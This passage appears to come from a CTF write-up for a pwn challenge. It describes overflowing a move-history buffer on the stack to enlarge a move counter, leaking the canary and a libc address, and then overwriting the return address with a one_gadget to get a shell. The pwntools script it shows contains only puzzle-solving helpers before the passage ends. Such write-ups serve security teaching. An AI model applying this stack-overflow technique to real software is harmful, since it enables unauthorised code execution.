 ```
r2r : 0xa
r3r : 0xb
r0l : 0xc
r1l : 0xd
r2l : 0xe
r3l : 0xf
```

We should be able to overwrite the return address with a `one_gadget`, provided we can leak the `canary` to keep it intact, and leak a `libc` address to calculate the location of said gadget. All we need to do after that is to solve the actual puzzle game, because then the `main` func will `return` and hopefully give us a shell.

## Battle plan

Recall:
* `list_moves_history` prints `i=nrOfMoves` moves from `player_history`
    * So this will only give us the history of what moves we've chosen. Unless...?
* `player_history` is at `rsp+0x28`
* `nrOfMoves` is at `rsp+0x828`

`nrOfMoves` is located after `player_history` on the stack! This means we should be able to overwrite `nrOfMoves` with a larger value, giving us leaks from the stack! Because the `canary` and a `libc` address in turn are located after this value, this is all we need!

## Solution

```python
#!/usr/bin/python2
from pwn import *
from func import f # puzzle solving algorithm
from copy import copy, deepcopy
from string import ascii_uppercase as UC
from sys import exit
from pprint import pprint

# puzzle solving
def col(board,col):
    l = []
    for row in board:
        l.append(row[col])
    return l

# print board
def pb(board):
    print("="*len(str(board[0])))
    for line in board:
        print(line)
    print("="*len(str(board[0])))
def r(l):
    return l[1:] + [l[0]]

def rc(board,col):
    l = [board[i][col] for i in range(len(board)) ]
    l = r(l)
    for i,n in enumerate(l):
        board[i][col] = n
    return board

def rr(board,row):
    l = board[row]
    l = r(l)
    board[row] = l
    return board
```